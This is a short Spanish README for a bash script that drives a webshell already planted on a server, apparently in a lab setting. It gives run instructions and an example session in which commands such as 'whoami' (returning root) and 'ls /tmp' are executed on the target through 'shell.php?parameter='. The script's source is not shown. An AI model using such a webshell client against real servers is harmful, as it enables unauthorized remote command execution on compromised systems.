 # webshell_navigator.sh

## Instrucciones para Usar el Script


## Dar Permisos de Ejecución al Archivo:

bash

chmod +x webshell_navigator.sh

## Ejecutar el Script:

bash
./webshell_navigator.sh

Interacción con la Webshell:

Cuando ejecutes el script, te pedirá la URL base de la webshell. 

Ejemplo: http://172.17.0.2/shell.php?parameter=

Después, te pedirá que ingreses comandos que quieras ejecutar en la webshell.

La salida de cada comando se mostrará en la terminal.

Para salir del script, puedes ingresar exit o presionar Ctrl+C.

## Ejemplo de Uso

bash

$ ./webshell_navigator.sh

Introduce la URL base de la webshell (ejemplo: http://172.17.0.2/shell.php?parameter=): http://172.17.0.2/shell.php?parameter=

Introduce el comando a ejecutar (o 'exit' para salir): whoami

Salida del comando:

root

Introduce el comando a ejecutar (o 'exit' para salir): ls /tmp

Salida del comando:

file1.txt

file2.txt

Introduce el comando a ejecutar (o 'exit' para salir): exit

[!] Saliendo...
